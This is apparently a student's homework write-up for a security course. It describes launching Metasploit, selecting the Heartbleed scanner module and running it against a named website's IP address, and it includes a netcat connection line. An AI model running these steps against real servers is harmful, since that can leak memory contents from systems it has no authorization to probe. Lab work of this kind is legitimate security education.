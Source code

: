<b>I pledge on my honor that I have not given or received any unauthorized assistance on this homework or assignment. -Jacob Elspas</b>

Homework #4

Part 1: I started off by opening a Bash Terminal and making a metasploit container using the following command 
``` nc 159.89.233.47 1337``` and then running ```mfsconsole```.
The I ran ```search heartbleed``` to find the path for the heartbleed attack, and then selected it with ``` use auxiliary/scanner/ssl/openssl_heartbleed```.
Next, I set the parameters for the exploit and subsequently ran it with the following commands:
``` 
set RHOSTS 165.227.204.80
set VERBOSE true
exploit
```
This ran the exploit on the IP address 165.227.204.80, which is the IP address of the website www.briong.com. I found this by using a website where you give it a domain name and it returns it’s IP address: 

![Alt text](img/briong-IP.png?raw=true "Title")
